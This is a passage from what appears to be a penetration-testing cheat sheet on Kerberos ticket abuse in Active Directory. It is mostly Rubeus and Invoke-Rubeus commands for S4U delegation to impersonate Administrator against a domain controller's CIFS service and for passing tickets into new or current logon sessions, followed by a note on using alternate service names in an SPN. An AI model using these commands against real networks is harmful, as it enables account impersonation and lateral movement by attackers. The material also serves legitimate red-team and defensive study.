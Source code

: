 ##### Use obtained TGT to request a TGS ticket for the delegated service and impersonate another user

    Invoke-Rubeus -Command "s4u /impersonateuser:[User] /msdsspn:[SPN/FQDN] /user:[User] /ticket:[Base64 ticket] /nowrap"

##### Example

    Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /msdsspn:cifs/dc01.security.local /user:srv01$ /ticket:[Base64 ticket] /nowrap"

## Pass the Ticket (PtT)

### 1) Rubeus

##### Method 1: Pass ticket into seperate session (Preffered)
##### Create new LUID session (Requires Elevation)

    Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe /show

##### Pass ticket into new session

    Rubeus.exe ptt /luid:[LUID from previous command] /ticket:[Base64 ticket]

##### Method 2: Pass ticket directly into current session (Can cause auth issues)

    Rubeus.exe ptt /ticket:[Base64 ticket]

### 2) Invoke-Rubeus

##### Method 1: Pass ticket into seperate session (Preffered)
##### Create new LUID session (Requires Elevation)

    Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /show"

##### Pass ticket into new session

    Invoke-Rubeus -Command "ptt /luid:[LUID from previous command] /ticket:[Base64 ticket]"

##### Method 2: Pass ticket directly into current session (Can cause auth issues)

    Invoke-Rubeus -Command "ptt /ticket:[Base64 ticket]"

## Alternate Service Name

Kerberos uses a Service Principal Name (SPN) to identify a service during authentication, which is typically a combination of the service name and the host's name where the service is running. Rubeus.exe includes an option called /altservicename that enables an attacker to use a different service name when constructing the SPN. This option can be helpful in certain situations, such as when the default service name is unavailable or the attacker wants to target a specific service.
